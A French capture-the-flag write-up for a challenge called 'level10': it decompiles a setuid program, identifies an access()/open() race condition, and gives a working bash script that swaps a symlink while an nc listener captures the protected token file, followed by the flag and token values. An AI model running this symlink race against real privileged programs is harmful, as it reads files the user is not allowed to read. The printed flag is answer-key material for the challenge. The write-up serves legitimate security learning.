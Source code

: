# [level10]

### Observations

##### Je décompile le programme '~/level10':
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	int				*v3;
	char			*v4;
	const char		*v6;
	const char		*v7;
	int				v8;
	int				v9;
	size_t			v10;
	char			buf[4096];
	struct sockaddr	addr;
	unsigned int	v13;

	v13 = __readgsdword(0x14u);
	if ( argc <= 2 )
	{
		printf("%s file host\n\tsends file to host if you have access to it\n", *argv);
		exit(1);
	}
	v6 = argv[1];
	v7 = argv[2];
	if ( access(v6, 4) )
		return printf("You don't have access to %s\n", v6);
	printf("Connecting to %s:6969 .. ", v7);
	fflush(stdout);
	v8 = socket(2, 1, 0);
	*(_DWORD *)&addr.sa_data[6] = 0;
	*(_DWORD *)&addr.sa_data[10] = 0;
	addr.sa_family = 2;
	*(_DWORD *)&addr.sa_data[2] = inet_addr(v7);
	*(_WORD *)addr.sa_data = htons(0x1B39u);
	if ( connect(v8, &addr, 0x10u) == -1 )
	{
		printf("Unable to connect to host %s\n", v7);
		exit(1);
	}
	if ( write(v8, ".*( )*.\n", 8u) == -1 )
	{
		printf("Unable to write banner to host %s\n", v7);
		exit(1);
	}
	printf("Connected!\nSending file .. ");
	fflush(stdout);
	v9 = open(v6, 0);
	if ( v9 == -1 )
	{
		puts("Damn. Unable to open file");
		exit(1);
	}
	v10 = read(v9, buf, 0x1000u);
	if ( v10 == -1 )
	{
		v3 = __errno_location();
		v4 = strerror(*v3);
		printf("Unable to read from file: %s\n", v4);
		exit(1);
	}
	write(v8, buf, v10);
	return puts("wrote file!");
}
```

##### Détails du programme:
```bash
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
```

##### Entrées du programme:
```c
char *chemin_fichier
char *addresse_ip
```

##### Fonctionnement:
Le programme vérifie si le chemin_fichier est accessible par l'utilisateur à l'aide de la fonction access. \
Puis se connecte à un serveur avec l'addresse_ip pour par la suite ouvrir le fichier avec la fonction open.

> Le serveur est hébergé sur le port '6969'.

##### Conclusions:
L'ordre d'exécution des fonctions créé une faille qui nous permet de modifier le fichier pointant à la fin du chemin_fichier pendant la connection. \
Cette opération leurre la fonction open sur le fait que nous avons les droits sur ce fichier dû au fait que la fonction access retient les drois d'ouverture.

### Résolution
Je créé un script qui effectue trois opérations distinctes en parallele.

 1. La premiere consiste en une boucle qui créé un lien symbolique vers un fichier accessible par l'utilisateur \
 pour ensuite le modifier vers un fichier innaccessible par l'utilisateur.

 2. La seconde est composée d'une boucle qui exécute le programme `~/level10` tout en pointant sur le lien symbolique \
 créé et modifié par la boucle de l'opération précédente.

 3. La dernière est une simple boucle qui récupère les données circulant sur le port réseau 6969 et affiche le resultat \
 quand ce n'est pas le contenu du fichier accessible (soit le programme).

Il ne me reste plus qu'a lui donner les droits d'exécution et de l'exécuter pour avoir mon flag.

##### /tmp/script.sh :
```bash
#! /bin/bash

rm -rf /tmp/done

link_breaker()
{
	while [ ! -f "/tmp/done" ];
	do
		ln -nsf /home/user/level10/level10 /tmp/link
		ln -nsf /home/user/level10/token /tmp/link
	done
}

listen_to_serv()
{
	while [ ! -f "/tmp/done" ];
	do
		TOK="$(nc -ln 6969)"
		[[ "$TOK" !=  *ELF* ]] && echo "$TOK" && touch /tmp/done
	done
}

exec_loop()
{
	while [ ! -f "/tmp/done" ];
	do
		/home/user/level10/level10 /tmp/link "127.0.0.1" >/dev/null
	done
}

exec_loop&
listen_to_serv&
link_breaker&

wait

```

#### commandes:
```bash
chmod +x /tmp/script.sh
/tmp/script.sh
```

**flag :** woupa2yuojeeaaed06riuj63c

**token :** feulo4b72j7edeahuete3no7c

